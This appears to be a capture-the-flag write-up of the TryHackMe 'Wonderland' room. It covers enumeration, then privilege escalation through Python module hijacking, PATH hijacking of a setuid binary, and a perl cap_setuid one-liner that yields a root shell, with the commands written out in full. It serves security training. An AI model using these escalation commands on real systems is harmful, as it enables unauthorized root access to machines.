



# Wonderland (THM)

- https://tryhackme.com/room/wonderland
- March 15, 2023
- medium

---

## Enumeration

### Nmap

```
PORT   STATE SERVICE REASON     VERSION
22/tcp open  ssh     syn-ack    OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

### HTTP


- directory brute forcing with ffuf
- `img`, `r`
- from `img` dir, there are 3 images found
- get to local machine to analyse later
- `r`


- need directory brute forcing and do with ffuf
- found `a`
- is it `r/a/b/b/i/t` ?
- yes, it is right



- found something 



- may be `username:something`
- as there is ssh port open and enter with above credentials

## User Access

- enter ssh and get `alice` user shell

```sh
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
- alice can run `sudo /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as `rabbit` user with `sudo`
- there is only read access for that file

```
-rw-r--r-- 1 root  root  3577 May 25  2020 walrus_and_the_carpenter.py
```
- read the content of that file

```python
import random
poem = """
...
long poem string
...
"""
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

- random module is imported 
- we can create `random.py` file in this directory and write the content like this to get `rabbit's` shell
- in alice's home directory,

```sh
alice@wonderland:~$ echo "import os; os.system('/bin/bash');" > random.py
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
rabbit@wonderland:~$ whoami
rabbit
```
- get rabbit access
- in rabbit's home directory,

```sh
rabbit@wonderland:/home/rabbit$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty

rabbit@wonderland:/home/rabbit$ file teaParty 
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```
- one suid program can be found
- get that file to our machine to analyse
- first need to copy under tmp folder and

```sh
$ scp alice@$IP:/tmp/teaParty teaParty
```
- analyse with `strings teaParty` and found that



- can we inject `date` with malicious code 
- first create `date` executable file under `/tmp` folder
- then just write `/bin/bash` inside date
- update the path by adding `/tmp` at first 
- then execute the `teaParty` file

```sh
rabbit@wonderland:/tmp$ cat /tmp/date
#!/bin/bash
/bin/bash

rabbit@wonderland:/tmp$ chmod +x /tmp/date

rabbit@wonderland:/tmp$ ls -la /tmp/date
-rwxr-xr-x 1 rabbit rabbit 22 Mar 15 10:40 /tmp/date

rabbit@wonderland:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

rabbit@wonderland:/tmp$ PATH=/tmp:$PATH

rabbit@wonderland:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

rabbit@wonderland:/home/rabbit$ cd /home/rabbit

rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ whoami
hatter
```

- we get `hatter` account
- found `password.txt` under his home directory `/home/hatter/password.txt` but it is not the password for root
- it is password for himself
- `sudo -l` -> cannot run sudo 
- find suid -> nothing special
- find capabilities

```sh
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

## Root Access

- from gtfobin, found `perl` capabilities

```sh
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

# whoami
root
```

---